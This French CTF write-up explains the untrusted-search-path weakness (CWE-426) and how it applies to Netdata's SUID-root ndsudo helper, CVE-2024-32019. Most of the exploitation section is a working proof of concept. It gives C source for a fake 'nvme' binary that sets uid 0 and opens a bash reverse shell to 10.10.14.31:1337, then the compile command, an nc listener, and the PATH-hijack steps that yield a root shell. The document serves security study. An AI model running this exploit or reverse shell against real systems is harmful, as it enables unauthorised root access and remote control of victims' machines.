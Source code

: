 # UNTRASTED SEARCH PATH

### <mark style="color:red;">🧩 Définition</mark>

* **Untrusted Search Path** (CWE-426) = lorsqu’un programme exécute une commande externe (ex: `nvme`, `ls`, `cat`) **sans utiliser un chemin absolu** (`/usr/bin/nvme`) mais uniquement le nom de commande.
* Le binaire recherche alors l’exécutable dans les répertoires listés dans `$PATH`.
* Si `$PATH` contient un répertoire contrôlé par l’attaquant (ex: `/tmp`), alors celui-ci peut injecter un exécutable malveillant qui sera exécuté **avec les privilèges du binaire vulnérable**.

***

### <mark style="color:red;">🛠 Cas CTF – Netdata</mark> <mark style="color:red;"></mark><mark style="color:red;">`ndsudo`</mark>

* **Binaire vulnérable** : `/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo`
*   **Propriétés** :

    ```bash
    -rwsr-xr-x 1 root root 123456 /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
    ```

    → `SUID root` ⇒ tout ce qui est exécuté par ce binaire hérite des privilèges **root**.
* **Vulnérabilité** :
  * `ndsudo` appelle certaines commandes externes (`nvme`, `smartctl`, etc.) sans chemin absolu.
  * `$PATH` est respecté.
* **Exploitation** :
  1. Créer un exécutable malveillant nommé comme une commande attendue (`nvme`).
  2. Le placer dans un répertoire contrôlé (`/tmp`).
  3. Modifier `$PATH` pour que `/tmp` soit cherché en priorité.
  4. Lancer `ndsudo nvme-list` ⇒ exécution de notre binaire avec **root**.

***

### <mark style="color:red;">📂 Exemple PoC CTF</mark>

#### Code malveillant `expkoit.c` (reverse shell)

```c
#include <unistd.h>

int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.31/1337 0>&1", NULL);
    return 0;
}
```

#### Compilation

```bash
x86_64-linux-gnu-gcc -o nvme expkoit.c -static
```

#### Déploiement

```bash
# Sur la machine attaquante
nc -lnvp 1337

# Sur la cible compromise
scp nvme victim:/tmp/nvme
chmod +x /tmp/nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

➡️ Shell root ouvert sur l’attaquant.

***

### <mark style="color:red;">🔎 Diagramme simplifié</mark>

```bash
[ User ]             [ Victim Host ]  
     │                     │
     │ compile exploit.c   │
     ├──────────────────▶  │  /tmp/nvme (malicious binary)
     │                     │
     │ export PATH=/tmp:$PATH
     │──────────────────▶  │
     │ run ndsudo nvme-list│
     ├──────────────────▶  │
     │                     │ -> ndsudo executes /tmp/nvme
     │                     │ -> privileges = root
     │◀────────────────────│
     │      root shell     │
```

***

### <mark style="color:red;">📚 Références Techniques</mark>

* **CVE** : [CVE-2024-32019](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93)
* **CWE** : CWE-426 – _Untrusted Search Path_
* **Impact** : Escalade de privilèges locale (`root`)
* **Sévérité** : High – CVSS 8.8 (Confidentiality/Integrity/Availability = High)

***
